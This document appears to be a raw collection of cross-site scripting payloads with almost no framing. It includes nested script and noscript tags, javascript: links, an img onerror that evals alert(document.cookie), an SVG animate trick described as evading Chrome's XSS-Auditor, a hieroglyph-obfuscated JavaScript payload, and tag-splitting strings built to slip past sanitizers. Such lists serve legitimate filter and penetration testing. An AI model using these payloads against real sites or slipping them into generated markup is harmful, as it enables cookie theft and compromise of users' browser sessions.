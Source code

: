 <output>
<noscript onerror=prompt(0);><a href="javascript:alert("XSS")>XSS</a>"><script onerror="<noscript onerror="<script>alert("XSS")</script>"><IMG src=<script src="/">alert(" "XSS" ")</script></noscript>"<script>alert("XSS")</script></noscript>
</output>
<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>

<img src=x onerror="eval('alert(document.cookie)')"/>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>This payload injects a malicious script into an SVG element. The script sets the href attribute of the animate element to javascript:alert(1), which will execute the alert function when clicked. Since the script is injected into an SVG element, the Chrome XSS-Auditor fails to detect it.
<a href=”#” onclick=”… var input=’controllable data here’; …”>


𓅂='',𓂀=!𓅂+𓅂,𓁄=!𓂀+𓅂,𓊎=𓅂+{},𓆣=𓂀
[𓅂++],𓊝=𓂀[𓇎=𓅂],𓏢=++𓇎+𓅂,𓆗=𓊎[𓇎+𓏢
],𓂀[𓆗+=𓊎[𓅂]+(𓂀.𓁄+𓊎)[𓅂]+𓁄[𓏢]+𓆣+
𓊝+𓂀[𓇎]+𓆗+𓆣+𓊎[𓅂]+𓊝][𓆗](𓁄[𓅂]+𓁄[
𓇎]+𓂀[𓏢]+𓊝+𓆣+'`𓅂 𓏢 𓂀 𓁄 𓆣 𓊝 𓇎`')``

<</div>script</div>>alert()<</div>/script</div>>
<s\Cr\ipt\>alert(document\.cookie)<\/s\Cr\ipt\>\;\/>
